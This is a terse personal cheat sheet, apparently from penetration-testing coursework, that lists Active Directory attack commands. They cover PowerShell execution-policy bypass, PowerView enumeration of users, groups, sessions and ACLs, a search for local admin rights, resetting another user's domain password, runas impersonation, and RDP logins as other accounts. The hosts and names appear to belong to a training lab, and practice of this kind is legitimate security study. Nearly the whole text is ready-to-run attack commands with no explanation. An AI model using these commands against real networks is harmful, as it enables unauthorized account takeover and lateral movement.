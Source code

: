 ### 05-Oct-23 Thu

![](Pasted%20image%2020231005205250.png)

1. Initial Foothold
2. Enumeration
3. Lateral Movement
4. Domain Compromise

```
powershell -ExecutionPolicy Bypass -File script.ps1
```

```
Import-Moudle .\PowerView.ps1
```

```
Get-NetUser | select samaccountname,lastlogon
```

```
net group "Group-Name" /domain
```

```
Get-NetGroup "Group-Name" | select member
```

```
Get-NetComputer | select dnshostname,operatingsystem,operatingsystemversion
```

```
Resolve-IPAddress $dnshostname
```

```
Find-LocalAdminAccess
```

```
Get-NetSession -ComputerName $dnshostname -Verbose
```

```
Get-Acl -Path HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\LanmanServer\DefaultSecurity\ | fl
```

```
Get-Acl -Path HKLM:SYSTEM\CurrentControlSet\Services\LanmanServer\DefaultSecurity\ | fl
```

![](Pasted%20image%2020231006211541.png)

```
.\PsLoggedon.exe \\files04
```

```
Get-ObjectAcl -Identity "Management Department" | ?
{$_.ActiveDirectoryRights -eq "GenericAll"} | select
SecurityIdentifier,ActiveDirectoryRights
```

```
"S-1-5-21-1987370270-
658905905-1781884369-1104" | Convert-SidToName
```

```
CORP\stephanie
```

```
net user jen Password123 /domain
```

```
runas /user:corp\jen powershell.exe
```

```
powershell -ep bypass
```

```
Import-Module .\PowerView.ps1
```

```
Find-LocalAdminAccess
```

```
xfreerdp /u:stephanie /d:corp.com /v:192.168.50.75
```

```
xfreerdp /u:jeffadmin /v:192.168.226.70 /smart-sizing:1920x1200
```

Get Shift Done!